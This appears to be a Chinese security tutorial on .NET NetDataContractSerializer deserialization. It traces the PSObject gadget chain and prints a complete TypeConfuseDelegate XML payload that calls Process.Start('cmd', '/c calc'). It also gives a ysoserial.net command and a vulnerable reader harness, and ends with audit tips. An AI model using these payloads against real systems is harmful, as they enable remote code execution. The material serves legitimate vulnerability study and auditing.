









# NetDataContractSerializer

NetDataContractSerializer和DataContractSerializer同样用于序列化和反序列化 Windows Communication Foundation (WCF) 消息中发送的数据。

两者有一个重要的区别在于：[NetDataContractSerializer](https://docs.microsoft.com/zh-cn/dotnet/api/system.runtime.serialization.netdatacontractserializer?view=netframework-4.8) 在序列化的 XML 中包含 CLR 类型信息；而 [DataContractSerializer](https://docs.microsoft.com/zh-cn/dotnet/api/system.runtime.serialization.datacontractserializer?view=netframework-4.8) 不包含。 因此，只有在序列化和反序列化端使用相同的 CLR 类型时，才能使用 [NetDataContractSerializer](https://docs.microsoft.com/zh-cn/dotnet/api/system.runtime.serialization.netdatacontractserializer?view=netframework-4.8)。

NetDataContractSerializer不仅可以对已应用 [DataContractAttribute](https://docs.microsoft.com/zh-cn/dotnet/api/system.runtime.serialization.datacontractattribute?view=netframework-4.8) 或 [SerializableAttribute](https://docs.microsoft.com/zh-cn/dotnet/api/system.serializableattribute?view=netframework-4.8) 属性的类型进行序列化。 它还可以对用于实现 [ISerializable](https://docs.microsoft.com/zh-cn/dotnet/api/system.runtime.serialization.iserializable?view=netframework-4.8) 的类型进行序列化。

该类同样位于[System.Runtime.Serialization](https://docs.microsoft.com/zh-cn/dotnet/api/system.runtime.serialization?view=netframework-4.8)命名空间，实现XmlObjectSerializer和IFormatter接口，并有多个构造函数重载和序列化、反序列化重载。



# demo

微软官方文档给出了demo

```csharp
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Xml;

namespace NetDataContractDeserialize
{
    // You must apply a DataContractAttribute or SerializableAttribute
    // to a class to have it serialized by the NetDataContractSerializer.
    [DataContract(Name = "Customer", Namespace = "http://www.contoso.com")]
    class Person : IExtensibleDataObject
    {
        [DataMember()]
        public string FirstName;
        [DataMember]
        public string LastName;
        [DataMember()]
        public int ID;

        public Person(string newfName, string newLName, int newID)
        {
            FirstName = newfName;
            LastName = newLName;
            ID = newID;
        }

        private ExtensionDataObject extensionData_Value;

        public ExtensionDataObject ExtensionData
        {
            get
            {
                return extensionData_Value;
            }
            set
            {
                extensionData_Value = value;
            }
        }
    }

    public sealed class Test
    {
        private Test() { }

        public static void Main()
        {
            try
            {
                WriteObject("NetDataContractSerializerExample.xml");
                ReadObject("NetDataContractSerializerExample.xml");
            }

            catch (SerializationException serExc)
            {
                Console.WriteLine("Serialization Failed");
                Console.WriteLine(serExc.Message);
            }
            catch (Exception exc)
            {
                Console.WriteLine(
                "The serialization operation failed: {0} StackTrace: {1}",
                exc.Message, exc.StackTrace);
            }

            finally
            {
                Console.WriteLine("Press <Enter> to exit....");
                Console.ReadLine();
            }
        }

        public static void WriteObject(string fileName)
        {
            Console.WriteLine(
                "Creating a Person object and serializing it.");
            Person p1 = new Person("Zighetti", "Barbara", 101);
            FileStream fs = new FileStream(fileName, FileMode.Create);
            XmlDictionaryWriter writer = XmlDictionaryWriter.CreateTextWriter(fs);
            NetDataContractSerializer ser =
                new NetDataContractSerializer();
            ser.WriteObject(writer, p1);
            writer.Close();
        }

        public static void ReadObject(string fileName)
        {
            Console.WriteLine("Deserializing an instance of the object.");
            FileStream fs = new FileStream(fileName,
            FileMode.Open);
            XmlDictionaryReader reader =
                XmlDictionaryReader.CreateTextReader(fs, new XmlDictionaryReaderQuotas());
            NetDataContractSerializer ser = new NetDataContractSerializer();

            // Deserialize the data and read it from the instance.
            Person deserializedPerson =
                (Person)ser.ReadObject(reader, true);
            fs.Close();
            Console.WriteLine(String.Format("{0} {1}, ID: {2}",
            deserializedPerson.FirstName, deserializedPerson.LastName,
            deserializedPerson.ID));
        }
    }
}
```

生成的xml如下

```xml
<Customer z:Id="1" z:Type="NetDataContractDeserialize.Person" z:Assembly="NetDataContractSerializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" xmlns="http://www.contoso.com" xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns:z="http://schemas.microsoft.com/2003/10/Serialization/"><FirstName z:Id="2">Zighetti</FirstName><ID>101</ID><LastName z:Id="3">Barbara</LastName></Customer>
```

可见指定Person类的Name为Customer之后，生成的xml中Customer有一个属性`z:Assembly="NetDataContractSerializer, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null"`存储了clr类型。只有序列化和反序列化的两端都有这个类型时，才能使用NetDataContractSerializer。

# 攻击链

在yso中有多个攻击链适用于NetDataContractSerializer，比如：ActivitySurrogateDisableTypeCheck、AxHostState、PSObject等等。

## PSObject

其中PSObject有严格的限制：Target must run a system not patched for CVE-2017-8565 (Published: 07/11/2017)。该漏洞在2017年7月11日发了补丁。

使用ysoserial.net自带的测试参数-t，`ysoserial.exe -f NetDataContractSerializer -g PSObject -t -c calc`来进行调试，堆栈如图



其反序列化函数中读取CliXml值进行反序列化



经过多次调用后

- PSDeserializer.DeserializeAsList()
- System.management.automation.Deserializer.Deserialize()
- System.Management.Automation.InternalDeserializer.ReadOneObject()

当对象为CimInstance实例时


会继续调用

- System.Management.Automation.InternalDeserializer.RehydrateCimInstance()
- System.Management.Automation.InternalDeserializer.RehydrateCimInstanceProperty()

在RehydrateCimInstanceProperty中下图标红的一行type可控。type取决于text2，text2取决于psobject，psobject取决于obj，obj取决于传入的deserializedProperty

`object obj = deserializedProperty.Value;`



type可控，继续执行到ConvertEnumerableToArray



获取传入的每个元素并通过LanguagePrimitives.ConvertTo()将其转为ElementType，LanguagePrimitives.ConvertTo继续调用LanguagePrimitives.FigureConversion



FigureConversion尝试寻找类型对应的反序列化方法



然后继续进入LanguagePrimitives.FigureConversion(fromType, resultType)转换类型，在FigureConversion中会调用LanguagePrimitives.FigureParseConversion(fromType, toType)



而在FigureParseConversion中

```csharp
private static LanguagePrimitives.PSConverter<object> FigureParseConversion(Type fromType, Type toType)
{
    if (toType.IsEnum)
    {
        if (fromType.Equals(typeof(string)))
        {
            return new LanguagePrimitives.PSConverter<object>(LanguagePrimitives.ConvertStringToEnum);
        }
        if (LanguagePrimitives.IsTypeEnumerable(fromType))
        {
            return new LanguagePrimitives.PSConverter<object>(LanguagePrimitives.ConvertEnumerableToEnum);
        }
    }
    else if (fromType.Equals(typeof(string)))
    {
        BindingFlags bindingAttr = BindingFlags.Static | BindingFlags.Public | BindingFlags.FlattenHierarchy | BindingFlags.InvokeMethod;
        MethodInfo methodInfo = null;
        try
        {
            methodInfo = toType.GetMethod("Parse", bindingAttr, null, new Type[] { typeof(string), typeof(IFormatProvider) }, null);
        }
        catch (AmbiguousMatchException ex)
        {
            LanguagePrimitives.typeConversion.WriteLine("Exception finding Parse method with CultureInfo: \"{0}\".", new object[] { ex.Message });
        }
        catch (ArgumentException ex2)
        {
            LanguagePrimitives.typeConversion.WriteLine("Exception finding Parse method with CultureInfo: \"{0}\".", new object[] { ex2.Message });
        }
        if (methodInfo != null)
        {
            return new LanguagePrimitives.PSConverter<object>(new LanguagePrimitives.ConvertViaParseMethod { parse = methodInfo }.ConvertWithCulture);
        }
        try
        {
            // 这里可以XamlReader.Parse
            methodInfo = toType.GetMethod("Parse", bindingAttr, null, new Type[] { typeof(string) }, null);
        }
        catch (AmbiguousMatchException ex3)
        {
            LanguagePrimitives.typeConversion.WriteLine("Exception finding Parse method: \"{0}\".", new object[] { ex3.Message });
        }
        catch (ArgumentException ex4)
        {
            LanguagePrimitives.typeConversion.WriteLine("Exception finding Parse method: \"{0}\".", new object[] { ex4.Message });
        }
        if (methodInfo != null)
        {
            return new LanguagePrimitives.PSConverter<object>(new LanguagePrimitives.ConvertViaParseMethod { parse = methodInfo }.ConvertWithoutCulture);
        }
    }
    return null;
}
```

在`toType.GetMethod("Parse", bindingAttr, null, new Type[] { typeof(string) }, null)`可以XamlReader.Parse()触发rce。

## TypeConfuseDelegate

```xml
<ArrayOfstring z:Id="1" z:Type="System.Collections.Generic.SortedSet`1[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]" z:Assembly="System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" xmlns="http://schemas.microsoft.com/2003/10/Serialization/Arrays" xmlns:i="http://www.w3.org/2001/XMLSchema-instance" xmlns:x="http://www.w3.org/2001/XMLSchema" xmlns:z="http://schemas.microsoft.com/2003/10/Serialization/"><Count z:Id="2" z:Type="System.Int32" z:Assembly="0" xmlns="">2</Count><Comparer z:Id="3" z:Type="System.Collections.Generic.ComparisonComparer`1[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]" z:Assembly="0" xmlns=""><_comparison z:Id="4" z:FactoryType="a:DelegateSerializationHolder" z:Type="System.DelegateSerializationHolder" z:Assembly="0" xmlns="http://schemas.datacontract.org/2004/07/System.Collections.Generic" xmlns:a="http://schemas.datacontract.org/2004/07/System"><Delegate z:Id="5" z:Type="System.DelegateSerializationHolder+DelegateEntry" z:Assembly="0" xmlns=""><a:assembly z:Id="6">mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089</a:assembly><a:delegateEntry z:Id="7"><a:assembly z:Ref="6" i:nil="true"/><a:delegateEntry i:nil="true"/><a:methodName z:Id="8">Compare</a:methodName><a:target i:nil="true"/><a:targetTypeAssembly z:Ref="6" i:nil="true"/><a:targetTypeName z:Id="9">System.String</a:targetTypeName><a:type z:Id="10">System.Comparison`1[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]</a:type></a:delegateEntry><a:methodName z:Id="11">Start</a:methodName><a:target i:nil="true"/><a:targetTypeAssembly z:Id="12">System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089</a:targetTypeAssembly><a:targetTypeName z:Id="13">System.Diagnostics.Process</a:targetTypeName><a:type z:Id="14">System.Func`3[[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089],[System.String, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089],[System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089]]</a:type></Delegate><method0 z:Id="15" z:FactoryType="b:MemberInfoSerializationHolder" z:Type="System.Reflection.MemberInfoSerializationHolder" z:Assembly="0" xmlns="" xmlns:b="http://schemas.datacontract.org/2004/07/System.Reflection"><Name z:Ref="11" i:nil="true"/><AssemblyName z:Ref="12" i:nil="true"/><ClassName z:Ref="13" i:nil="true"/><Signature z:Id="16" z:Type="System.String" z:Assembly="0">System.Diagnostics.Process Start(System.String, System.String)</Signature><Signature2 z:Id="17" z:Type="System.String" z:Assembly="0">System.Diagnostics.Process Start(System.String, System.String)</Signature2><MemberType z:Id="18" z:Type="System.Int32" z:Assembly="0">8</MemberType><GenericArguments i:nil="true"/></method0><method1 z:Id="19" z:FactoryType="b:MemberInfoSerializationHolder" z:Type="System.Reflection.MemberInfoSerializationHolder" z:Assembly="0" xmlns="" xmlns:b="http://schemas.datacontract.org/2004/07/System.Reflection"><Name z:Ref="8" i:nil="true"/><AssemblyName z:Ref="6" i:nil="true"/><ClassName z:Ref="9" i:nil="true"/><Signature z:Id="20" z:Type="System.String" z:Assembly="0">Int32 Compare(System.String, System.String)</Signature><Signature2 z:Id="21" z:Type="System.String" z:Assembly="0">System.Int32 Compare(System.String, System.String)</Signature2><MemberType z:Id="22" z:Type="System.Int32" z:Assembly="0">8</MemberType><GenericArguments i:nil="true"/></method1></_comparison></Comparer><Version z:Id="23" z:Type="System.Int32" z:Assembly="0" xmlns="">2</Version><Items z:Id="24" z:Type="System.String[]" z:Assembly="0" z:Size="2" xmlns=""><string z:Id="25" xmlns="http://schemas.microsoft.com/2003/10/Serialization/Arrays">/c calc</string><string z:Id="26" xmlns="http://schemas.microsoft.com/2003/10/Serialization/Arrays">cmd</string></Items></ArrayOfstring>
```

反序列化代码

```csharp
using System.IO;
using System.Runtime.Serialization;
using System.Xml;

namespace NetDataContractDeserialize
{
    public class Program
    {
        public static void Main()
        {
            FileStream fs = new FileStream("1.xml", FileMode.Open);
            XmlDictionaryReader reader = XmlDictionaryReader.CreateTextReader(fs, new XmlDictionaryReaderQuotas());
            NetDataContractSerializer ser = new NetDataContractSerializer();
            ser.ReadObject(reader, true);
            fs.Close();
        }
    }
}
```

# 审计

关注NetDataContractSerializer传入xml的内容是否可控，以及在上文中DataContractSerializer同理的DataContractResolver自定义类型解析器对于type的处理。还有就是构造函数的IDataContractSurrogate参数，关注其实现。**这个在DataContractJsonSerializer一节中讲解，本文不讲。**

# 后文

本文讲解了NetDataContractSerializer的序列化和反序列化，以及PSObject利用链。

